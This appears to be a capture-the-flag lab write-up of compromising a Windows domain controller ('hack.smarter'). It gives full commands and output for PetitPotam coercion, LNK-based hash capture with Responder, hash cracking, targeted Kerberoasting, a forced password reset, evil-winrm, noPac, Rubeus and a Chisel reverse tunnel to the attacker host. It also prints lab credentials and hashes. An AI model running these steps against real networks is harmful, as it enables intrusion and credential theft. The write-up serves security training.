


# __**ShareThePain**__


??? note

    __Author__: Dcyberguy

    __Status__: Done

    __Last edited time__: January 24, 2026 8:48 PM

    __Created time__: December 8, 2025 9:09 PM

## __**Enumeration**__

Enumerating the target host for open ports and protocols.

The below `nmap` command has the following flags:

- -Pn: It assumes the target is alive
- -sV: Does Version enumeration
- -sC: nmap default script scan
- -p-: scans all ports (65,536)
- --min-rate=200: Determines the rate of scans
- T4: nmap medium scan rate

```jsx
nmap -Pn -sV -sC -p- --min-rate=200 10.1.226.153 -T4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-08 21:10 EST
Nmap scan report for 10.1.226.153
Host is up (0.017s latency).
Not shown: 65508 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-12-09 02:11:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hack.smarter0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hack.smarter0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-12-09T02:12:22+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HACK
|   NetBIOS_Domain_Name: HACK
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hack.smarter
|   DNS_Computer_Name: DC01.hack.smarter
|   DNS_Tree_Name: hack.smarter
|   Product_Version: 10.0.20348
|_  System_Time: 2025-12-09T02:12:12+00:00
| ssl-cert: Subject: commonName=DC01.hack.smarter
| Not valid before: 2025-09-05T03:46:00
|_Not valid after:  2026-03-07T03:46:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49712/tcp open  msrpc         Microsoft Windows RPC
49721/tcp open  msrpc         Microsoft Windows RPC
49727/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-12-09T02:12:13
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -2s, deviation: 0s, median: -2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.87 seconds

```

### __**Enum SMB**__

### __**PetitPotam**__

The Windows Server is vulnerable to PetitPotam

```jsx
nxc smb 10.1.226.153 -u '' -p '' -M coerce_plus -o METHOD=PetitPotam LISTENER=10.200.22.1 ALWAYS=true 
SMB         10.1.226.153    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hack.smarter) (signing:True) (SMBv1:False)
SMB         10.1.226.153    445    DC01             [+] hack.smarter\: 
COERCE_PLUS 10.1.226.153    445    DC01             VULNERABLE, PetitPotam
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, lsarpc\EfsRpcAddUsersToFile
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, lsarpc\EfsRpcAddUsersToFileEx
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, lsarpc\EfsRpcDecryptFileSrv
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, lsarpc\EfsRpcDuplicateEncryptionInfoFile
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, lsarpc\EfsRpcEncryptFileSrv
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, lsarpc\EfsRpcEncryptFileSrv
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, lsarpc\EfsRpcFileKeyInfo
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, lsarpc\EfsRpcQueryRecoveryAgents
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, lsarpc\EfsRpcQueryUsersOnFile
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, lsarpc\EfsRpcRemoveUsersFromFile
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, samr\EfsRpcAddUsersToFile
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, samr\EfsRpcAddUsersToFileEx
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, samr\EfsRpcDecryptFileSrv
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, samr\EfsRpcDuplicateEncryptionInfoFile
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, samr\EfsRpcEncryptFileSrv
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, samr\EfsRpcEncryptFileSrv
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, samr\EfsRpcFileKeyInfo
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, samr\EfsRpcQueryRecoveryAgents
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, samr\EfsRpcQueryUsersOnFile
COERCE_PLUS 10.1.226.153    445    DC01             Exploit Success, samr\EfsRpcRemoveUsersFromFile

```

I was also able to confirm it using this GitHub Repo below

<div class="iframely-embed"><div class="iframely-responsive" style="height: 140px; padding-bottom: 0;"><a href="https://github.com/topotam/PetitPotam" data-iframely-url="https://iframely.net/OgQjjRwl?card=small&theme=dark"></a></div></div><script async src="https://iframely.net/embed.js"></script>


```jsx
PetitPotam git:(main) python3 PetitPotam.py -d DC01.hack.smarter -u '' -p '' 10.200.22.1 10.1.226.153

                                                                                               
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN

Trying pipe lsarpc
[-] Connecting to ncacn_np:10.1.226.153[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```

```jsx
Authenticating against smb://10.1.226.153 as HACK/DC01$ FAILED
[*] SMBD-Thread-34 (process_request_thread): Received connection from 10.1.226.153, attacking target smb://10.1.226.153
[-] Signing is required, attack won't work unless using -remove-target / --remove-mic
[-] Authenticating against smb://10.1.226.153 as HACK/DC01$ FAILED
[*] SMBD-Thread-35 (process_request_thread): Received connection from 10.1.226.153, attacking target smb://10.1.226.153
[-] Signing is required, attack won't work unless using -remove-target / --remove-mic

```

That didn’t work, so I shifted my attention to getting a Password Hash using the Netexec `slinky` module

[NetExec/nxc/modules at main · Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec/tree/main/nxc/modules)
<div class="iframely-embed"><div class="iframely-responsive" style="height: 140px; padding-bottom: 0;"><a href="https://github.com/Pennyw0rth/NetExec/tree/main/nxc/modules" data-iframely-url="https://iframely.net/5icmlfyu?card=small&theme=dark"></a></div></div><script async src="https://iframely.net/embed.js"></script>


```jsx
nxc smb 10.1.226.153 -u '' -p '' -M slinky -o NAME=asdf SERVER=10.200.22.170 
[*] Ignore OPSEC in configuration is set and OPSEC unsafe module loaded
SMB         10.1.226.153    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hack.smarter) (signing:True) (SMBv1:False)
SMB         10.1.226.153    445    DC01             [+] hack.smarter\: 
SMB         10.1.226.153    445    DC01             [*] Enumerated shares
SMB         10.1.226.153    445    DC01             Share           Permissions     Remark
SMB         10.1.226.153    445    DC01             -----           -----------     ------
SMB         10.1.226.153    445    DC01             ADMIN$                          Remote Admin
SMB         10.1.226.153    445    DC01             C$                              Default share
SMB         10.1.226.153    445    DC01             IPC$                            Remote IPC
SMB         10.1.226.153    445    DC01             NETLOGON                        Logon server share 
SMB         10.1.226.153    445    DC01             Share           READ,WRITE      
SMB         10.1.226.153    445    DC01             SYSVOL                          Logon server share 
SLINKY      10.1.226.153    445    DC01             [+] Found writable share: Share
SLINKY      10.1.226.153    445    DC01             [+] Created LNK file on the Share share
```

### __**Responder**__
Started `Responder` on the attack host to capture the hash of the user that was able to click on our `slinky` link. 

```jsx
[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.200.22.170]
    Responder IPv6             [fe80::3f70:da98:66fe:e759]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-GZN7WGKRU7A]
    Responder Domain Name      [KS38.LOCAL]
    Responder DCE-RPC Port     [47358]

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.1.226.153
[SMB] NTLMv2-SSP Username : HACK\bob.ross
[SMB] NTLMv2-SSP Hash     : bob.ross::HACK:eb70805d86915fd3:BDC73605EBE35D9AF047D44502007319:0101000000000000006609069468DC01BF8F6B89F899B20F00000000020008004B0053003300380001001E00570049004E002D0047005A004E003700570047004B00520055003700410004003400570049004E002D0047005A004E003700570047004B0052005500370041002E004B0
<< snip for brevity >>
[*] Skipping previously captured hash for HACK\bob.ross
[*] Skipping previously captured hash for HACK\bob.ross

```

Using John The Ripper I was able to compare the above `NTLMv2` hash with a wordlist of password hashes ffrom `RockYou` to get `bob.ross` plain text password.

```jsx
sudo john --format=netntlmv2 bob.ross --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
137Password123!@# (bob.ross)     
1g 0:00:00:07 DONE (2025-12-08 22:47) 0.1347g/s 1788Kp/s 1788Kc/s 1788KC/s 13809274886..13761619040
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 

```

### Bloodhound
With `Bloodhound` and `bob.ross`'s password I was able to map out the internal structure of the `hack.smarter` active domain
<div class="iframely-embed"><div class="iframely-responsive" style="height: 140px; padding-bottom: 0;"><a href="https://github.com/SpecterOps/BloodHound-Legacy" data-iframely-url="https://iframely.net/Iza4Dc0U?card=small&theme=dark"></a></div></div><script async src="https://iframely.net/embed.js"></script>


```jsx
bloodhound-python -c all -d hack.smarter -u bob.ross -p '137Password123!@#' --zip -ns 10.0.27.11
INFO: Found AD domain: hack.smarter
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.hack.smarter
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.hack.smarter
INFO: Found 7 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.hack.smarter
INFO: Done in 00M 04S
INFO: Compressing output into 20251210164425_bloodhound.zip

```

Looking at the results in Bloodhound. Bob.Ross has three (3) First Degree Object Control over the `Alice.Wonderland` user



You can also see the Full Path to Domain Admins in `Bloodhound`



## __**Foothold**__

Research findings, data insights, and key considerations and document how you got a foothold on the vulnerable box

### __**GenericAll (Alice.Wonderland)**__

With `GenericAll` rights it gives Full control of a user allows you to modify properties of the user to perform a targeted `kerberoast attack`, and also grants the ability to reset the password of the user without knowing their current one.

```jsx
python3 targetedKerberoast.py -v -d 'hack.smarter' -u bob.ross -p '137Password123!@#'  
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (alice.wonderland)
[+] Printing hash for (alice.wonderland)
$krb5tgs$23$*alice.wonderland$HACK.SMARTER$hack.smarter/alice.wonderland*$4b625d656688da45f321dade58ad571b$9a573f3345778c16d8b675c196d5287116198378c5b4baa4f09c5970168f78e065ae9ff509fbc7af554a6447a2172d48de17b6d0e3e92b6a676e21155d2b9095f1e051c9859e77aa5ccb0c79d8c533e488840d71a00efbead3f1283e10446438c8c3ff3db747c3ada832f4db17eaf9636f59db97671332aa9b9ecfdac66808f706cc159e4cf4ccdf8210d1d31bda0761a6719ae6d9bfe33f3831b40718ffdd4fea542a36145fd9e3ade7b1765e3dc002a23f86c826103497d9a57d3506d48df65128e8c2341c166e839aa78433726fda708129c355aac6d5a86887aed3f90e93dee00659d1bbf8917bb76e82259a8dda86d20cadf1bd08d63b19d8b9e6ba4ded665346a4c4dd500a8905248c0b5026700734db5c5bb7e7e6d5893bd650b84cf3ecd6edc9f9e124bd24e6f4c4dd6b33b757446fa1921039fa3d8e6d4ed778f412c812a957e0049ff670a24706440a5af2213ffa6485227a30c4b56cb619f4998b725c1c3f830e2cfb6980c8970a552ae965ea1fd1e75ed47954dadbc3b315915305a2d851063ea6f9d6e8f195830b8de643276ad1774f151d4b517c994ea751852896af3688514413de72d5f78a024572cd498b3870ae6aa78060845a73ba28f26a6731e2c4f2ed00a3bceccd40d5d2fecec89d3ee2f306bc698f310c7f5785fa8c4cd91a39898d7b970610009ffa7341595ac87eb7f1e332580aafc0af9317001d4ca87aa34852d2936ee1a5e23c46fa254b7c1962ea1e15d184f417cb407ec8af97c464f8b01e4cbc57f6c3e17025421351290286cfa4090c6110ee1cb8a25c2bac66c193d025c65f9ef4b83cd1ccc7c69a212ed54c0f367836b83ddb50c85b7868a87c786cca03bdb57892855616c8509ed8636b22a53d1f689d687adb2ff9ec08be412f53a1556af32315f37819ccc54627f47d3559e731e46f40529a0ad89ae15896f0b0cd477dba877745591e6c9483a56010af812c3661a838642d3a7dde03844ead45b9075d3a8f1557e1d83c7cd6ea25501473479c3e58901eb0099dd20b7f24b33f8d5d1c8e52df60d88f5d64227c36e605b013ce158e0de6a6effab40c3ce1cd54921b539fdb57e70d7dabe7ab699be0f62b9b2603ce56f8a01de70f6dfce5592f984620f41f3272496bd12f7880096fa6ac3beee124a44e8ea3a7dfabdb8e8f993cb48b9f82b79203f5843f3f3a86f573a29db398e5a3eb69ab8cc340dffb5df4e2050f435dcdf64d60a5ed171552179120796b40a0c286625cd662324ff6d92df7853635696927ce8cca843429afd3d2cc5b551905d9df63a2246343d8131850cc83720496736c76d64a9cfa5854a6ebcf47877b354046ba104b3f6806b0ac61e3d92503b6a418df39243ad080fbda14fba3f2218a3d7a586e100bca5ba211
[VERBOSE] SPN removed successfully for (alice.wonderland)

```

I couldn’t crack the `krb5tg` hash with John, So I am left with no option that to `Force a Password Change` for the `alice.wonderland` user

```jsx
sudo john --format=krb5tgs alice.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:28 DONE (2025-12-10 17:55) 0g/s 509185p/s 509185c/s 509185C/s  0841079575..*7¡Vamos!
Session completed. 
➜  HSM-Labs sudo john alice.hash --show
0 password hashes cracked, 1 left
➜  HSM-Labs 

```

### __**Force Password Change**__

```jsx
net rpc password "alice.wonderland" "Valentino1@" -U 'hack.smarter'/'bob.ross'%'137Password123!@#' -S 'DC01.hack.smarter'

evil-winrm -i 10.0.27.11 -u alice.wonderland -p 'Valentino1@'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> 
```

Next stage would be a `DCSync`

### DCSync


## Privilege Escalation

Document how you were able to more laterally and gain a higher privilege

Alice has `SeMachineAccountPrivilege` but it didnt woth 

```jsx
Evil-WinRM* PS C:\Users\alice.wonderland\DEsktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

```jsx
python3 noPac.py hack.smarter/alice.wonderland:'Valentino1@' -dc-ip 10.0.27.11 -shell --impersonate administrator -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target dc01.hack.smarter
[*] will try to impersonate administrator
[*] Adding Computer Account "WIN-U8HNJHBE1AQ$"
[*] MachineAccount "WIN-U8HNJHBE1AQ$" password = l6@s*UQTU2eL
[*] Successfully added machine account WIN-U8HNJHBE1AQ$ with password l6@s*UQTU2eL.
[*] WIN-U8HNJHBE1AQ$ object = CN=WIN-U8HNJHBE1AQ,CN=Computers,DC=hack,DC=smarter
[-] Cannot rename the machine account , Reason 00000523: SysErr: DSID-031A1256, problem 22 (Invalid argument), data 0

[*] Attempting to del a computer with the name: WIN-U8HNJHBE1AQ$
[-] Delete computer WIN-U8HNJHBE1AQ$ Failed! Maybe the current user does not have permission.

```

### Rubeus

```jsx
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> ./Rubeus.exe asktgt /user:hacker$ /password:Passw0rd /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: A87F3A337D73085C45F9416BE5787D86
[*] Building AS-REQ (w/ preauth) for: 'hack.smarter\hacker$'
[*] Using domain controller: fe80::981a:beb4:47f5:8468%6:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFUDCCBUygAwIBBaEDAgEWooIEZjCCBGJhggReMIIEWqADAgEFoQ4bDEhBQ0suU01BUlRFUqIhMB+g
      AwIBAqEYMBYbBmtyYnRndBsMaGFjay5zbWFydGVyo4IEHjCCBBqgAwIBEqEDAgECooIEDASCBAhfjDka
      FpBvEKDsq7QOSMj2ZwnpVV+hnp99oaOeKneEo/iczNBta66Y2h6rd5o+GPFBnzF9Eaefqs5ARlJaSusj
      Rk5sddO6+w3Ej4muFg5ylIISiOnL9YxgkThFeX7nLecuw+Uk5kFENwnURoPFwgoKZeIdR5XnSPCYbyi9
      EVQpo7h2DVVhUTi+CPzle1zM1uCPMgWT7qPgzgnEKNtx8vJGutatWgy7F4e0V4kGtLEAZV8cOV/FO4wl
      97ksYGzSPE74kmFbiuEjZuD7NSUkhzkosQCbhzCkazXGQE+uY9/uqXuykKrHFWjhwyp+s30r7jYfYb0f
      x2fp1tpSPowqmECVyLlbgvLcooE5y236C8TiilO9zBLoZjtRoORmaigIubCRFBzF8u0sQP7HSFNZoKvN
      zdK0EGHwimLh/1aGYIFnv36+k1xP9O59yJsBjRu6KJ1i4kwuNlcNsSorUbiEW0ZpN0QmElD5cH8YtXuw
      FOMsBLmXhs93aJEsTSCa3LA2LrHMgEGw6Zi9ynrvNZt5TeqodO6knwWA9TfBrqG3OEyYawsbB0/asr/y
      gmZTKJVNKjMngG7LGx0R5l+WV5jCduPjHNtJPPRboNZ/aO30rO4gr19IQdAZk59lLxPimAkiKUnTtukH
      lvQZVDERvJwXApPweRHueB09ioTaFEqTPMFyThEoyV2b4l4g2kgKI08ccvVQlxwJrN29yZDo1BZ4T6ZE
      zNXpW578NAxK5KKm4iwRUw+6TwFUKF7u5s3vERSozE6rA/sLkDFalv+zOfuTmVOzp7oUgM8e5BhZLVu7
      oBygZatqPm8XvB11sAzl5daV5GLnngYztnhf8V9DPJgY77Ha5kcdUfVlbdJCJvypAOxwpkrxUuyYvBDQ
      h5qdDBD5XUbnrzTtgusf9hw37Ib7itnRiDQ4SC0I9Ed58eSEBNbEpZKaPlzWe9KI8n2btWYX/lAHxiZw
      809W7AWkVtJ8W8P/7XWtM5aWgopI8tFCvjzpKVkfCPbKG6FVvtrubCxii9raEsry5I9kTxEMv+cHa8TN
      ovB/ZWDaL/EjNdLkF0GRsniLZZsGseEYxuNa1XqDYeuXynjHBS6soVOlz9N0RNVQ/83GKtLLAb6pfO6n
      1efB6l6Y1HjV6gLBdVfaVpeP9Z0k+j9obeYVe8K1QMW1pBHdb0GqVGNjTCLyX78QT8iaFDeP+griHkVG
      xf/Dbp20R2I42X3TCoaDnyHtjqlwqDCEVnypx4eF8jiYsb2xINo9NqFDJ0AuRnNHIdAtWLa/jjtqJjgA
      hjSQL7lrnepvIleeAAdOUHZQKw/ZtDAm/rj3UQOSqOpRpgMpHGzjTW2QjleSpRULWuRRJfD5onwUc2hY
      /FjhWvtLij+jgdUwgdKgAwIBAKKBygSBx32BxDCBwaCBvjCBuzCBuKAbMBmgAwIBF6ESBBAGyfc5kZ79
      h6dL0YCZhU/WoQ4bDEhBQ0suU01BUlRFUqIUMBKgAwIBAaELMAkbB2hhY2tlciSjBwMFAEDhAAClERgP
      MjAyNTEyMTAyMzQzMjNaphEYDzIwMjUxMjExMDk0MzIzWqcRGA8yMDI1MTIxNzIzNDMyM1qoDhsMSEFD
      Sy5TTUFSVEVSqSEwH6ADAgECoRgwFhsGa3JidGd0GwxoYWNrLnNtYXJ0ZXI=
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/hack.smarter
  ServiceRealm             :  HACK.SMARTER
  UserName                 :  hacker$
  UserRealm                :  HACK.SMARTER
  StartTime                :  12/10/2025 3:43:23 PM
  EndTime                  :  12/11/2025 1:43:23 AM
  RenewTill                :  12/17/2025 3:43:23 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  Bsn3OZGe/YenS9GAmYVP1g==
  ASREP (key)              :  A87F3A337D73085C45F9416BE5787D86

*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> 

```

## mssql

While enumerating the machine I found an internal MSSQL service running on port 1433. 

```jsx
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> netstat -ano | findstr LISTENING
 
 << SNIP >>
  
  TCP    0.0.0.0:49677          0.0.0.0:0              LISTENING       1968
  TCP    0.0.0.0:49678          0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:49681          0.0.0.0:0              LISTENING       2944
  TCP    0.0.0.0:49703          0.0.0.0:0              LISTENING       664
  TCP    0.0.0.0:49725          0.0.0.0:0              LISTENING       3380
  TCP    0.0.0.0:49829          0.0.0.0:0              LISTENING       3424
  TCP    10.0.27.11:53          0.0.0.0:0              LISTENING       3380
  TCP    10.0.27.11:139         0.0.0.0:0              LISTENING       4
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       3380
  TCP    127.0.0.1:1433         0.0.0.0:0              LISTENING       4444
  TCP    127.0.0.1:56517        0.0.0.0:0              LISTENING       4444

```

Also can be seen when you list the `C:\` drive

```jsx
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> dir C:\

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          9/5/2025   8:34 PM                Program Files
d-----          9/3/2025   2:06 PM                Program Files (x86)
d-----         9/15/2025   3:59 PM                Share
d-----          9/3/2025   2:06 PM                SQL2019
d-----          9/3/2025   2:01 PM                Temp
d-r---          9/3/2025   2:54 PM                Users
d-----          9/5/2025   8:46 PM                Windows

```

I have to find a way to do `Port Fowrding` to the compromised machine either using `Chisel` or `Ligolo`. I will try both.

### __**Chisel**__

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
<div class="iframely-embed"><div class="iframely-responsive" style="height: 140px; padding-bottom: 0;"><a href="https://github.com/jpillora/chisel" data-iframely-url="https://iframely.net/27BYhLS?card=small&theme=dark"></a></div></div><script async src="https://iframely.net/embed.js"></script>


I will be using both the Chisel executable for Windows (Our compromised server) and the chisel for linux (Attacker machine).

```jsx
ls -l chi*
   rw-r--r--   1   ha5hcat   ha5hcat      4 MiB   Thu Jan  1 17:19:48 2026    chisel_1.11.3_linux_amd64.deb 
   rw-r--r--   1   ha5hcat   ha5hcat      4 MiB   Thu Jan  1 17:18:31 2026    chisel_1.11.3_windows_amd64.zip 

```

Start the Chisel on your kali or parrot (I use ParrotOS)

```jsx
sudo chisel server -p 8001 --socks5 --reverse
[sudo] password for ha5hcat: 
2026/01/01 17:35:29 server: Reverse tunnelling enabled
2026/01/01 17:35:29 server: Fingerprint AibyywYQls3jLFT6enhFU16hJnT2AN9LjP9bA4PiUAE=
2026/01/01 17:35:29 server: Listening on http://0.0.0.0:8001

```

Start the Chisel Client on the compromised Windows hosts.

**10.200.22.170** should be the IP of your Kali machine

```jsx
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> ./chisel.exe client 10.200.22.170:8001 R:socks
chisel.exe : 2026/01/01 14:38:00 client: Connecting to ws://10.200.22.170:8001
    + CategoryInfo          : NotSpecified: (2026/01/01 14:3...200.22.170:8001:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2026/01/01 14:38:00 client: Connected (Latency 18.167ms)
```

Connected

```jsx
2026/01/01 17:38:03 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

